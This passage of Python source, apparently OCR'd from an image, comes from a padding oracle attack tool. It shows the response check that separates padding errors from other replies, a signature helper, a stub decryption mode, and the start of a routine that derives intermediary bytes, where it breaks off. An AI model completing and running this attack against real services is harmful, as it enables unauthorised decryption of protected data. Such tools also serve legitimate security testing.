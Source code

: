     def is_successful(self, status_code, content, location, content_length) -> bool:
        """
        Return True if not a padding error.
        We either check the error_string or compare with oracle signature.
        """
        if self.error_string:
            if self.error_string in content:
                return False
            return True
        elif self.oracle_signature:
            sig = self.build_signature(status_code, content_length, location, content)
            if sig == self.oracle_signature:
                return False
            return True
        else:
            # analysis mode
            return False

    def build_signature(self, status, content_length, location, content):
        # The simpler approach: we do not incorporate the entire body, unless the user wants to
        return f"{status}\t{content_length}\t{location}"

    # -------------------------------
    # Decryption Mode (Skeleton)
    # -------------------------------
    def decrypt_mode(self):
        """
        A partial or skeleton approach for block-by-block decryption,
        not the focus of this snippet. 
        """
        pass

    # -------------------------------------------------------
    # The "processBlock" used in both decrypt and encrypt
    # to discover Intermediary Bytes
    # -------------------------------------------------------
    def process_block(self, target_block: bytes) -> bytes:
        """
        Derive 'intermediary bytes' for target_block by using a fake block 
        and the padding oracle logic. 
        """
        block_size = self.block_size
        fake_block = bytearray(block_size)
        intermediary = bytearray(block_size)
